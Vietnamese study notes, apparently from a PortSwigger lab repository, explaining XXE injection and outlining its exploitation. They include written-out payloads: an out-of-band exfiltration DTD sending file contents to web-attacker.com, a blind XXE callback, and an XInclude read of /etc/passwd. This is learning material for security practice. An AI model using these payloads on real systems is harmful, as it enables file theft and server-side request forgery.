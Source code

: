 ## **_1. Định nghĩa_**

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/ab5147eb-1cff-407a-963b-01afca163025)

XML external entity injection (còn được gọi là XXE) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp máy chủ ứng dụng và tương tác với bất kỳ hệ thống back-end hoặc bên ngoài nào mà chính ứng dụng có thể truy cập.

## **_2. Cách phát sinh_**
Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng thư viện tiêu chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh do đặc tả XML chứa các tính năng nguy hiểm tiềm tàng khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.

Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng thư viện tiêu chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh do đặc tả XML chứa các tính năng nguy hiểm tiềm tàng khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.

## **_3. How to test_**

## [**_4. Khai thác_**](part1.md)
- Để truy xuất tệp (lab 1)
  - sửa đổi XML theo 2 cách
    - Introduce (or edit) `DOCTYPE` xác định 1 thực thể bên ngoài có chứa đường dẫn tới tệp
    - Chỉnh sửa giá trị dữ liệu trong XML được trả về trong respond để sử dụng thực thể bên ngoài đã xác định

- Để thực hiện các cuộc tấn công SSRF (lab 2)
  - cần xác định thực thể XML bên ngoài bằng cách sử dụng URL mà bạn muốn nhắm mục tiêu và sử dụng thực thể được xác định trong giá trị dữ liệu

## [**_5. Blind XXE_**](part2.md)
- _**Blind XXE**_ là XXEi nhưng không trả về giá trị dữ liệu trong response
- Phát hiện bằng kỹ thuật OOB (lab 3, 4)
  - tương tự như XXE SSRF, URL mục tiêu sẽ là URL mà ta kiểm soát
  - khi bị block, do một số xác thực đầu vào hoặc phân tích cú pháp XML đang sử dụng, hãy sử dụng tham số XML thay thế
    - đầu tiên là khai báo: `<!ENTITY % myparameterentity "my parameter entity value" >`
    - thứ hai là tham chiếu bằng cách sử dụng `%`: `%myparameterentity;`
    - VD: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`
- Khai thác để lọc dữ liệu OOB (lab 5)
  - file độc hại trích xuất nội dung file đã cho
    - Định nghĩa thực thể `file` chứa nội dung file đã cho: `<!ENTITY % file SYSTEM "file:///file_đã_cho">`
    - Định nghĩa thực thể `eval` chứa thực thể khác gọi là `exfiltrate` (thực thể sẽ được đánh giá bằng cách tạo 1 yêu  cầu HTTP tới máy chủ web tấn công chứa giá trị của `file` trong chuỗi truy vấn URL: `<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">`
    - Sử dụng `eval` thực hiện khái báo `exfiltrate`: `%eval;`
    - Sử dụng `exfiltrate` để giá trị của nó được đánh giá: `%exfiltrate;`
  - Cuối cùng, tấn công gửi XXE: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>`
- Khai thác để truy xuất dữ liệu qua các thông báo lỗi (lab 6)
- lab 7 EXPERT

## [**_6. Tìm bề mặt tấn công ẩn để thực hiện XXEi_**](part3.md)
- Tấn công XInclude (lab 8)
  - tham chiếu tên và cung cấp đường dẫn đến tệp muốn đưa vào:

      > `<foo xmlns:xi="http://www.w3.org/2001/XInclude">`
      >
      > `<xi:include parse="text" href="file:///etc/passwd"/></foo>`
      
- Thông qua upload file (lab 9)
- Thông qua chỉnh sửa Content-type
